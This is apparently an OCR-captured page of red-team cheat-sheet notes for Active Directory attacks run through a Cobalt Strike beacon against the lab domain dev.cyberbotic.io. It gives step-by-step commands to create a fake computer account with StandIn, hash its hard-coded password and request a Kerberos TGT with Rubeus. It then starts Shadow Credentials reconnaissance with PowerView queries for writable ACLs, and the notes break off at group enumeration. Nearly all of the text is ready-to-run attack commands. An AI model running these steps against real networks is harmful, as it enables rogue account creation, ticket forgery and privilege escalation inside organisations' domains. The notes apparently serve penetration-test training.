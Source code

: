     #1. Check if we have permission to create computer account (default allowed)
    beacon> powershell-import c:\Tools\PowerSploit\Recon\PowerView.ps1
    beacon> powerpick Get-DomainObject -Identity "DC=dev,DC=cyberbotic,DC=io" -Properties ms-DS-MachineAccountQuota
      
    #2. Create a fake computer with random password and then generate password hash using Rubeus
    # If You wants to create a new computer object for a different Forest using StandIn Tool, Then Read this blog by Rasta - https://rastamouse.me/getdomain-vs-getcomputerdomain-vs-getcurrentdomain/
    # Note: StandIn code needs to be modified if you wants to create a Computer in another Domain using --Domain parameter. (https://github.com/FuzzySecurity/StandIn/pull/17)
    beacon> execute-assembly C:\Tools\StandIn\StandIn\StandIn\bin\Release\StandIn.exe --computer EvilComputer --make --Domain dev.cyberbotic.io 
      
    PS> C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe hash /password:oIrpupAtF1YCXaw /user:EvilComputer$ /domain:dev.cyberbotic.io
      
    #3. Use the Hash to get TGT for our fake computer, and rest of the steps remains same, Follow case-1
    beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:EvilComputer$ /aes256:7A79DCC14E6508DA9536CD949D857B54AE4E119162A865C40B3FFD46059F7044 /nowrap

    Shadow Credentials

    # Shadow Credentials
      
    #1. Enumerate the Permissions GenericWrite/GenericAll to modify the attribute msDS-KeyCredentialLink for User or Computer Object.
    beacon> powershell-import C:\Tools\PowerSploit\Recon\PowerView.ps1
    beacon> powerpick Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match "Domain Users"}
      
    beacon> powerpick Get-DomainSid -Domain dev.cyberbotic.io
      
    beacon> powerpick Get-DomainComputer | Get-DomainObjectAcl -ResolveGUIDs | ? { $_.ActiveDirectoryRights -match "WriteProperty|GenericWrite|GenericAll|WriteDacl"}
      
    beacon> powerpick Get-DomainComputer | Get-DomainObjectAcl -ResolveGUIDs | ? { $_.ActiveDirectoryRights -match "WriteProperty|GenericWrite|GenericAll|WriteDacl" -and $_.SecurityIdentifier -match "S-1-5-21-569305411-121244042-2357301523-[\d]{4,10}" }
      
    beacon> powerpick Get-DomainUser | Get-DomainObjectAcl -ResolveGUIDs | ? { $_.ActiveDirectoryRights -match "WriteProperty|GenericWrite|GenericAll|WriteDacl"}
      
    beacon> powerpick Get-DomainUser | Get-DomainObjectAcl -ResolveGUIDs | ? { $_.ActiveDirectoryRights -match "WriteProperty|GenericWrite|GenericAll|WriteDacl" -and $_.SecurityIdentifier -match "S-1-5-21-569305411-121244042-2357301523-[\d]{4,10}" }
      
    beacon> powerpick ConvertFrom-SID S-1-5-21-569305411-121244042-2357301523-1107
    beacon> powerpick Get-DomainGroupMember -Identity "Developers" -Domain dev.cyberbotic.io -Recurse
      